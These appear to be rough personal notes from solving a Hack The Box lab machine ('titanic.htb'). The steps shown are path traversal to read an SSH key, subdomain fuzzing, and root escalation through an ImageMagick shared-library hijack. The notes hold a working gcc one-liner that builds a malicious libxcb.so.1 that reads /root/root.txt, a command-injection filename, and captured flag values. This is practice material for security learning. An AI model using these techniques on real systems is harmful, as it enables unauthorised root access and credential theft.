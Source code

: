 /download?ticket=cfeaa75a-0451-4c8f-884d-e589e6281539.json 

path traversal attack here
need to leak a username
username developer
try /home/developer/.ssh/id_rsa
id_rsa file not found

[Status: 200, Size: 13982, Words: 1107, Lines: 276, Duration: 36ms]
| URL | http://titanic.htb
    * FUZZ: dev

found dev subdomain


could not crack the admin hash
25282528

3000 has a service running, 5000 has a service running
3000 is gitea
5000 is the website

what do with this
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log

maybe do a soft link to root?
but magick identify does not read a file right
yea so all i would get is information about the file
what is being run as root?
doesn't look like there is a mysql server anywhere


doesnt look like root executes the script though???
1) where does the images script get executed?
2) how to inject code into the images script

https://github.com/ImageMagick/ImageMagick/issues/6339

we need to create a file that looks something like this and figure out what calls identify_images
'|smile"`cat test.txt > leak.txt`".gif'

actually it might be this 
https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8
probs have to play with library paths
is there an AppRun script though?

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt >> flag.txt");
    exit(0);
}
EOF

find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log


how to get root to run it?
it does it automatically
8be33ad1490786f28dbd630936a821b7

